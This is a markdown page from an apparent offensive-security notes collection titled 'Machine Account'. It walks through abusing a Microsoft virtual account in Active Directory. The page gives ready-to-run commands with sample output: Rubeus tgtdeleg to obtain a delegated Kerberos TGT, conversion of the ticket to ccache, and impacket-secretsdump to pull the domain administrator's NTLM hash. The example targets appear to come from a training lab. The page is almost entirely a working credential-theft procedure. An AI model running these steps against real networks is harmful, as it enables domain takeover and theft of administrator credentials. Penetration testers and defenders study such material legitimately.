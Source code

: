 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["Kerberos", "Credential Dumping", "Pass-The-Ticket", "Rubeus", "Ticket Granting Ticket", "Domain Controller", "Machine Account", "Microsoft Virtual Account", "Active Directory", "Windows"]
---
```


### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

```console {class="sample-code"}
PS C:\programdata> .\rubeus.exe tgtdeleg /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: W4jpmQuUqxCWpBh7QpPEkePICUi1mU/91EaqO2SfUgs=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBV ---[SNIP]--- lHSFQuSFRC
```

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py '<BASE64_TICKET>' secrets.kirbi secrets.ccache
```

```console {class="sample-code"}
$ python3 rubeustoccache.py 'doIFVDCCBV ---[SNIP]--- lHSFQuSFRC' secrets.kirbi secrets.ccache
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to secrets.kirbi
[*] Writing converted .ccache file to secrets.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=secrets.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=secrets.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC> && impacket-secretsdump <TARGET> -k -no-pass -just-dc-user administrator
```

```console {class="sample-code"}
$ sudo ntpdate -s g0.flight.htb && impacket-secretsdump g0.flight.htb -k -no-pass -just-dc-user administrator

Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
---[SNIP]---
[*] Cleaning up..
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
